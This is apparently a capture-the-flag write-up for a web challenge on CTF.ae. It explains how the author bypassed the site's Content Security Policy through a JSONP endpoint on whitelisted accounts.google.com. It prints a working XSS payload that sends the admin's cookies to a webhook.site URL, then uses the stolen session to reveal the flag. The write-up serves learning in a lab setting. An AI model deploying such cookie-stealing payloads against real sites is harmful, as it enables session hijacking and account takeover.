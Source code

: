 ```yaml
---
title : CAT CTF.ae Web Writeups
tags : xss csp 
---
```




### Foreword




- Took some time to solve this challenge,learnt alot in the process.
hope you also grab something new from it :)




# Challenge 


![](/img/cat/challenge.png)


## Solution

visiting the link provided [http://web.ctf.ae:8812/](http://web.ctf.ae:8812/) - will be offline soon XD


we are met with this friendly page 


![](/img/cat/default.png)


filling the form and clicking on submit we are met with this response


![](/img/cat/toadmin.png)


so far we can gather that it's an XSS related challenge,hence the hint in the challenge description.


- for a while i thought of coming up with a xss payload that steals the admin cookies,probably the flag set as a cookie,

trial one failed though 


![](/img/cat/test.png)


we get nothing on both our webhook instance,on preview nothing too


![](/img/cat/noexec.png)


why?, because we triggered the site's CSP (content security policy) a security feature in most web apps that mitigates execution of malicious scripts  among other attacks ... [Read More](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)


![](/img/cat/csp.png)


- We need to bypass the CSP first inorder to proceed with our attack in which we need to steal the admin session cookies

decided to recon on the csp using Google's Evaluator

[https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) and we get a hit ... 


![](/img/cat/cspcheck.png)


- we found a bypass, [accounts.google.com](accounts.google.com) is whitelisted

and another hint 


```
accounts.google.com -> accounts.google.com is known to host JSONP endpoints which allow to bypass this CSP.
```

on further research i bumped onto 

[https://github.com/zigoo0/JSONBee](https://github.com/zigoo0/JSONBee) where i found a readily prepared list of jsonp payloads that would lead to a csp bypass and hence xss

tried with 

`"><script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`

for our case and it fired 


[other payloads](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)


yaay! we got XSS 


![](/img/cat/cspbypass.png)


![](/img/cat/confirmed.png)


now we have to figure out a way to steal admin's cookies,then exfiltrate them to a web that we can control,
for this case i chose to use


[webhook.site](https://webhook.site)


using the instance provided we can craft a payload 


i used 

`"><script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://webhook.site/e923b472-7002-4b02-902d-61f0eedebxxxx/'.concat(document.cookie))"></script>`


as


![](/img/cat/final.png)


submitted that,checking our instance we got some request from the Admin


![](/img/cat/endpoint.png)


Wait! no flag as expected, but atleast we got a new endpoint,or rather the url being used by the admin 

we can use the session cookie we found,set it then we can review tickets this time as the admin

but first let's change

`http://web.ctf.ae:8812/support_ticket/f1400c65-ea9f-48db-9394-0fda02b690db?displayFlag=false` the `displayFlag=false`  parameter to `displayFlag=True`


then we can visit the link to retrieve the flag
...



NB:// using the support ticket with the xss payload executes,so create any random description then review as admin


and doing so we got the flag



![](/img/cat/flag.png)


> Flag : CTFAE{JSONAreTheBestTypeOfBees}

....

Thank you for reading :)



